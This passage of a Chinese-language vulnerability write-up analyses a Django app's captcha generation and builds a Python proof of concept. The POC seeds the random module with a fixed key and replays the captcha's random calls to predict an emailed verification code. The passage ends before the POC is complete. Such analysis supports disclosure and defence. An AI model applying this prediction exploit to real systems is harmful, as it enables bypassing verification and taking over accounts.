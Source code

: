 ```
        #CAPTCHA_LETTER_ROTATION默认存在，根据验证码生成请求和查阅资料，charlist这里是指验证码字符个数4
        if settings.CAPTCHA_LETTER_ROTATION:
            charimage = charimage.rotate(
                random.randrange(*settings.CAPTCHA_LETTER_ROTATION),
                expand=0,
                resample=Image.BICUBIC,
            )
    for f in settings.noise_functions():
    	draw = f(draw, image)
    ......
```  
  
但是通过阅读django-simple-captcha配置项在项目中找到，并根据settings.noise_functions()找到captcha.helpers.noise_dots函数，根据CAPTCHA_IMAGE_SIZE我们知道了调用深度  
```
# Captcha settings, more see https://django-simple-captcha.readthedocs.io/en/latest/advanced.html
CAPTCHA_IMAGE_SIZE = (180, 38)
CAPTCHA_FOREGROUND_COLOR = '#001100'
CAPTCHA_NOISE_FUNCTIONS = ('captcha.helpers.noise_dots',)
CAPTCHA_CHALLENGE_FUNCT = 'captcha.helpers.math_challenge'
```  
```
def noise_dots(draw, image):
    size = image.size
    for p in range(int(size[0] * size[1] * 0.1)):
        draw.point(
            (random.randint(0, size[0]), random.randint(0, size[1])),
            fill=settings.CAPTCHA_FOREGROUND_COLOR,
        )
    return draw
```  
  
**第三步**  
  
这一步中就只有在生成邮箱验证码时调用了random也就是上文提到的random_string函数。  
  
综上随机数深度我们已经计算出来了。构造POC  
```
import random
import string
string_punctuation = '!#$%&()*+,-.:;<=>?@[]^_~'
key="9d7818c96dacc1276c15fd04313db681237a5dda"
random.seed(key)
def noise_dots():
    for i in range(4):
        random.randrange(-35, 35)
    for p in range(int(180 * 38 * 0.1)):
    #for p in range(int(size[0] * size[1] * 0.1)):
        random.randint(0, 180)
        random.randint(0, 38)
def random_string(length: int, lower=True, upper=True, digit=True, special_char=False):
    args_names = ['lower', 'upper', 'digit', 'special_char']
    args_values = [lower, upper, digit, special_char]
    args_string = [string.ascii_lowercase, string.ascii_uppercase, string.digits, string_punctuation]
    args_string_map = dict(zip(args_names, args_string))
    kwargs = dict(zip(args_names, args_values))
    kwargs_keys = list(kwargs.keys())
    kwargs_values = list(kwargs.values())
    args_true_count = len([i for i in kwargs_values if i])
    assert any(kwargs_values), f'Parameters {kwargs_keys} must have at least one `True`'
    assert length >= args_true_count, f'Expected length >= {args_true_count}, bug got {length}'

    can_startswith_special_char = args_true_count == 1 and special_char

    chars = ''.join([args_string_map[k] for k, v in kwargs.items() if v])
```
